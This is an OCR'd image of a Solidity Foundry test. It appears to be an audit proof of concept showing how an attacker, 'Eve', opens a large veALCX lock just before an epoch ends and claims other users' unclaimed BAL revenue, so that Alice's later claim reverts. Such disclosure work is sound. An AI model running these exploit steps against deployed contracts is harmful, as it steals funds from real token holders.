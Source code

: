 ```solidity
        // assertEq(aliceClaimableAmt, revAmt + revAmt/2, "claimable amount for alice should be equal to revAmt * 1.5");
        assertApproxEq(aliceClaimableAmt, revAmt * 2, 25e18); // max delta is round 25.0 out of 2000.0

        // Also, Bob has approximately the half of revenues for both first and secound distrbution,
        // While he should only has half of the revenue of the second distrbution.
        uint256 bobClaimableAmt = revenueHandler.claimable(bobTokenId, bal);
        // assertEq(bobClaimableAmt, (revAmt*2) /2, "claimable amount for alice should be equal to revAmt");
        assertApproxEq(bobClaimableAmt, revAmt, 26e18); // max delta is round 26.0 out of 2000.0

        // This is happens because `revenueHandler.checkpoint()` account for current balance of `BAL` 
        // without taking into account that part of the balance belongs to previous epochs that unclaimed yet
        assertEq(revenueHandler.epochRevenues(period + 4 weeks, bal), revAmt * 2);


        // However, if a malicious user knows that, he can takes the opportunity and exploit it
        // Eve attacks and steal all unclaimed revenues:
        // Right before the end of the epoch, he start a lock with high amount.
        hevm.warp(period + 6 weeks - 1);
        hevm.roll(block.number + (2 weeks / 12));
        uint256 eveTokenId = _initializeVeALCXPosition(eve, lockAmt * 2);
        // Wrap to next epoch.
        hevm.warp(period + 6 weeks + 1);
        // Checkpoint last epoch revenues
        voter.distribute();

        // Now, after little time of his lock start, Eve can claim half of the whole revenues
        // Since has locks amount equals to alice's locks plus bob's locks
        uint256 eveClaimableAmt = revenueHandler.claimable(eveTokenId, bal);
        assertApproxEq(eveClaimableAmt, revAmt * 2 /2, 51e18);

        hevm.prank(eve);
        revenueHandler.claim(eveTokenId, bal, address(0), eveClaimableAmt, eve);


        // Now, if alice or bob try to claim
        // it will revert
        aliceClaimableAmt = revenueHandler.claimable(aliceTokenId, bal);
        hevm.prank(alice);
        hevm.expectRevert(abi.encodePacked('Not enough revenue to claim'));
        revenueHandler.claim(aliceTokenId, bal, address(0), aliceClaimableAmt, alice);
    }

    // Helper functions
    function _makeAddr(string memory name) internal returns(address addr){
        addr = hevm.addr(uint256(keccak256(abi.encodePacked(name))));
        vm.label(addr, name);
    }

    function _initializeVeALCXPosition(address owner, uint256 amount) internal returns (uint256 tokenId) {
        veALCX.checkpoint();
        tokenId = _lockVeALCX(owner, amount);
    }

    function _lockVeALCX(address owner, uint256 amount) internal returns (uint256 tokenId) {
        deal(address(bpt), owner, amount);
        hevm.startPrank(owner);
        IERC20(bpt).approve(address(veALCX), amount);
```